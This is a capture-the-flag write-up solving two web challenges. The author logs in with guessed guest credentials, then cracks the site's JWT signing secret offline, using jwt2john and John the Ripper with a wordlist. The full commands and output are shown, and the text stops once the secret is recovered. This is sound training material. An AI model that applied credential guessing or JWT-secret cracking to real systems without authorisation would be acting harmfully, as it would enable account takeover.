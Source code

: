 ## Tokens (75 points)

> You can access the members area using an account that doesn't even exist? How is that even possible?!
> 
> Hint: use a user id > 3 to get a flag.
> 
> Flag format: CTF{32-hex}

The site has a login form for members:

```html
<form action="" name="login" onsubmit="return verifyuser()">
	<div class="form-group">
		<label for="name">User name* </label>
		<input id="name" class="form-control" type="text" placeholder="User name" name="username">
	</div>
	<div class="form-group">
		<label for="Password">Password* </label>

		<input id="Password" class="form-control" type="password" name="password">
		</div> 
		<div class="form-group">
		</div>
		<input type="submit" value="Log in" class="button red" style="background: #db2d2e" />
	</div> 
</form>
```

Last year's PicoCTF had a similar challenge ([cereal hacker 1](/2019_picoCTF/cereal_hacker_1.md)) where the login was `guest:guest`. Surprisingly, this works here too and we get the flag:

```
Welcome guest!
Wow. You found the JWT secret! Have a flag: CTF{966ab87166c9311645a8f294824b35b4} 
```

According to the message, we weren't supposed to guess the password.

Note that we receive the following JWT cookie when logging in:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6MywidXNlcm5hbWUiOiJndWVzdCIsImFjY2Vzc19sZXZlbCI6NX0.8LOXY75j_XPYmBiIz-kA5JlMZLHJnsKCl2ap3xuUsNQ
```

## Members only (50 points)

> CyberTank early members get special benefits. Can you get in? 
> 
> Flag format: CTF{32-hex}

We take the cookie from the guest login and try to crack the JWT token:

```console
root@kali:/media/sf_CTFs/hackazon/CyberTank_Website/jwt# python ../../../pico/JaWT_Scratchpad/jwt2john.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6MywidXNlcm5hbWUiOiJndWVzdCIsImFjY2Vzc19sZXZlbCI6NX0.8LOXY75j_XPYmBiIz-kA5JlMZLHJnsKCl2ap3xuUsNQ > jwt.john
root@kali:/media/sf_CTFs/hackazon/CyberTank_Website/jwt# cat jwt.john
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6MywidXNlcm5hbWUiOiJndWVzdCIsImFjY2Vzc19sZXZlbCI6NX0#f0b39763be63fd73d8981888cfe900e4994c64b1c99ec2829766a9df1b94b0d4
root@kali:/media/sf_CTFs/hackazon/CyberTank_Website/jwt# ~/utils/john/run/john jwt.john  --wordlist=/root/utils/dictionaries/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Warning: OpenMP is disabled; a non-OpenMP build may be faster
Press 'q' or Ctrl-C to abort, almost any other key for status
tank             (?)
```